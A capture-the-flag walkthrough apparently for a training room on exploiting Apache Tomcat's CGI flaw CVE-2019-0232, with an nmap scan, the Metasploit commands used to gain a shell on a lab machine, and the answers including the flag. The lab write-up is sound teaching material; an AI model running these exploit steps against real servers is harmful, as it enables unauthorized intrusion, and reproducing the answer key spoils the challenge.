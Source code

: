 ```yaml
---
description: Networking - Metasploit
---
```


# Ready, set, elf.

## Video

{% embed url="https://www.youtube.com/watch?v=6DOp2Fn1AsQ&feature=emb\_logo" %}

## Resources

`systeminfo`

[URL encoded](https://www.techopedia.com/definition/10346/url-encoding)

## Challenge

What is the version number of the web server?

```text
nmap -Pn -sC -sV -O -v 10.10.198.75
```

![](../.gitbook/assets/image%20%282%29.png)

![](../.gitbook/assets/image%20%2851%29.png)

{% hint style="success" %}
9.0.17
{% endhint %}

 What CVE can be used to create a Meterpreter entry onto the machine? \(Format: CVE-XXXX-XXXX\)

![](../.gitbook/assets/image%20%2812%29.png)

![](../.gitbook/assets/image%20%2852%29.png)

{% hint style="success" %}
CVE-2019-0232
{% endhint %}

Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

![](../.gitbook/assets/image%20%2832%29.png)

```text
msfconsole
search 2019-0232
use exploit/windows/http/tomcat_cgi_cmdlineargs
show targets
set TARGET 0
show options
set RHOST 10.10.198.75
set targeturi /cgi-bin/elfwhacker.bat
exploit
```

{% hint style="success" %}
**`No answer needed`**
{% endhint %}

What are the contents of flag1.txt

![](../.gitbook/assets/image%20%2870%29.png)

![](../.gitbook/assets/image%20%2838%29.png)

{% hint style="success" %}
thm{whacking\_all\_the\_elves}
{% endhint %}

Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

{% hint style="success" %}
**`No answer needed`**
{% endhint %}

